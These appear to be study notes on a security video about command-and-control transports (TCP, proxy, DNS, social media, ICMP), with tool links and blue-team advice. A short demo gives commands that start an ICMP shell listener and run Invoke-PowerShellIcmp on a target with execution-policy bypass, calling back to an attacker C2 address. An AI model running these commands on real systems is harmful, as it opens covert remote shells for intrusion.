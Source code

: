 Command & Control 101: Transports - Tradecraft Security Weekly #9

LINKS: 
Dnscat - https://github.com/iagox86/dnscat2 
Gcat - https://github.com/byt3bl33d3r/gcat
PowerShellICMP - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1
icmpsh - https://github.com/inquisb/icmpsh 
Week of PowerShell Shells - http://www.labofapenetrationtester.co...

# Command & Control
- Infrastructure used to carry out remote communication with hosts
- A number of different transport mechanisms can be utilized
- Some tend to be more stealthy than others
- Many network security appliances are trying in various ways to detect these
- But....bypasses exist and custom tools get right by
# C2 Over TCP
![f5393538bdb7efda9651e5307abfa251.png](../_resources/4e343162db87454cbe91d492036163cf.png)
# C2 Through A Web Proxy
- most common
![262794a43e8c22bc16577809f1f36034.png](../_resources/924afc771f8441f7a36f89aa7d7b875b.png)
# C2 Over DNS
- most sneaky
![83b4d6d29b29f409a93760bd17c02f44.png](../_resources/871092fa4b5044c593edda05cb441dca.png)
# C2 Over WebApps / Social Media
![20a167097f27d66044ada45684458a04.png](../_resources/b375efe75fe94d33a8d3dab1b8160d9b.png)
# C2 Over ICMP
- not well known
![2c5b1096ad5ff9277d1bbabec516516d.png](../_resources/6324b45c0485474aa4434f6a7311709c.png)

# PowerShellICMP DEMO
On Attackbox disable ICMP to other stuff
```
# sysctl -w net.ipv4.icmp_echo_ignore_all=1
# python icmpsh_my.py attackip victimip
```
On Target
```
C:\ powershell.exe -exec bypass
PS> Import-Module .\Invoke-PowerShellIcmp.ps1
PS> Invoke-PowerShellIcmp myattackc2ip
```
# For the Blue Team
- Lock down egress filtering
- Don't blindly trust IPS rules for specific tools; Test them.
- Know that there are still ways to get around categorization (see Episode #4)
- Focus on client-side protections to help prevent payloads from launching in the first place.